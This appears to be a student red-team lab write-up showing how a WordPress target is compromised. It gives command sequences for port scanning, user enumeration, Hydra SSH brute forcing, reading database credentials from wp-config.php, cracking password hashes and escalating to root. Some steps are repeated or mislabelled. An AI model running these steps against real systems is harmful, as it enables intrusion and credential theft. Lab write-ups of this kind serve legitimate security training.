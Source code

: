 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

command: $ nmap -sV 192.168.1.110

output:

This scan identifies the services below as potential points of entry:

- Target 1
  Port 22/TCP Open SSH
  Port 80/TCP Open HTTP
  Port 111/TCP Open rcpbid
  Port 139/TCP Open netbios-ssn
  Port 445/TCP Open netbios-ssn

 Critical Vulnerabilites
 
The following vulnerabilities were identified on each target:

-Target 1

  User Enumeration (WordPress site)
  
  Found the occurrence of simplistic usernames and weak passwords (Hydra Command)
  
  Brute forced ssh to gain access into the system.
  
  Secure files are not hidden away.
  
  Misconfiguration of User Privileges/ Privilege Escalation
 
![image](https://user-images.githubusercontent.com/105754955/182508065-ae851b13-bb59-4e94-9f55-90926879fdcf.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}

 ![image](https://user-images.githubusercontent.com/105754955/182508105-58962ee7-ab19-44fa-9bac-793665b4831b.png)


    - **Exploit Used**
    
•	WPScan to enumerate users on the Target1 WordPress site.
•	Command: $ wpscan --url 192.168.1.110/wordpress $ wpscan --url 192.168.1.110 --enumerate -u
 
 ![image](https://user-images.githubusercontent.com/105754955/182508140-6fea1755-debe-49d2-b387-2c8ccc95b804.png)

•	Targeting the user michael

•	Small manual Brute Force attack to guess/finds Michael's password.

•	First, the user's password is weak and obvious.

•	Second, for practice, Hydra can be used to crack Michaels's password:

    o	Command: hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh  
  
  ![image](https://user-images.githubusercontent.com/105754955/182508237-ac396c72-fc85-4197-ba75-eef3c7b3a279.png)

•	Capturing Flag1: SSH in as Michael, transvering through directories and files.

•	The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.

    o	Commands:
        	ssh michael@192.168.1.110
      
        	password: michael
      
        	cd /var/www/html
      
        	ls -l
      
        	nano services.html





 - `flag2.txt`: {fc3fd5Bdcdad9ab23facac6e9a365e581c33}

 ![image](https://user-images.githubusercontent.com/105754955/182508413-c87b7790-45ea-4965-8fff-62f793892d24.png)


    - **Exploit Used**

    The same exploit used to gain flag1.
    
•	Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.

    o	Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found.
  
    o	Commands:
  
        	ssh michael@192.168.1.110
      
        	password: michael
      
        	cd /var/www
      
        	ls 
      
        	cat flag2.txt
      
- `flag3.txt`: {afc01ab56b50591e7dccf93122770cd23}
 
![image](https://user-images.githubusercontent.com/105754955/182508573-62aa6e43-5d86-4dcc-8aac-60093bd38939.png)

Exploit Used:

•	Same exploits to gain Flag1 and Flag2.
.
•	Capturing Flag3: Access the MYSQL database.

    o	Discovering the wp-config.php and gaining access to the database credentials as the user Michael, MYSQL when used to explore the database.
    
•	Commands:

    o	mysql -u root -p 
    
    o	Enter password: R@v3nSecurity
    
    o	show databases;
    
    o	Show tables
    
    o	select * from wp_posts;
 
![image](https://user-images.githubusercontent.com/105754955/182508932-960df4e1-44c0-4e96-836a-9459fadde7f4.png)

- `flag3.txt`: {715dea6c055b9fe3337544932F2941ce}
 
![image](https://user-images.githubusercontent.com/105754955/182508953-5004395c-0d4a-43ef-ba40-7829c8b4809b.png)

Exploit Used:

•	Unsalted password hash and use of the privilege escalation with Python.

•	Capture Flag4: Gained user credentials, cracked password with John the Ripper and used Python to gain root privileges.

•	Once gaining access to the database credentials as the user Michael from the wp-config.php file, the next step was to lift the username and password hashes using MYSQL.

•	The credentials were located in the wp_users table in the wordpress database. The usernames and passwords were copied and saved on the Kali machine in a file call wp_hashes.txt.
  
  o	Commands:
  
      o	mysql -u root -p 
      
      o	Enter password: R@v3nSecurity
      
      o	show databases;

      o	Show tables

      o	select * from wp_posts;

•	On the Kali machine the wp_hashes.txt ran against John the Ripper to crack the hashes.

•	Command: - john wp_hashes.txt
 
 ![image](https://user-images.githubusercontent.com/105754955/182509074-f7db43fb-679f-414d-b73c-cf20e386a7e8.png)

•	Once the user Steven's password hash was cracked, the next step was to SSH into the server as Steven. Under the user Steven, privileges will first be checked, and escalated to root by guessing common root passwords.

  o	Commands:

      	ssh steven@192.168.1.110

      	password: pink:84

      	sudo -l

      	su root

      	password: toor

      	find /-iname flag*

      	cat /root/flag4.txt
 
![image](https://user-images.githubusercontent.com/105754955/182509149-ca1211d8-6b34-46cd-9f7c-2adb433c7ba5.png)
